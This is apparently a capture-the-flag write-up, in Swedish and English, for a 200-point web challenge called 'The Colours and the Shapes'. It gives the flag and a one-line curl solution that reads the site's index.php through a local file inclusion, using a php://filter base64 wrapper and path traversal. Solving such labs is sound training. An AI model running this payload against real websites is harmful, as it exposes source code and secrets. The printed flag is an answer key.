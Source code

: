 # Web: The Colours and the Shapes

- **Skapare:** Calle Svensson
- **Poäng:** 200
- **Antal lösningar:** 8

## Beskrivning 

Look I made a super pretty website about my faavourite interests.
Go have a look at: URL.

## Flag

`SSM{D0nt_wann4_be_your_monk3y_wr3nch}`

## Lösning

```sh
curl 'http://localhost:31337/img/gallery/view.php?p=php://filter/convert.base64-encode/resource=../../index.php' | base64 -d | head -n2
```

## Lösning på livestream

https://www.youtube.com/watch?v=CYBGQ9Zp6UQ&t=3240s
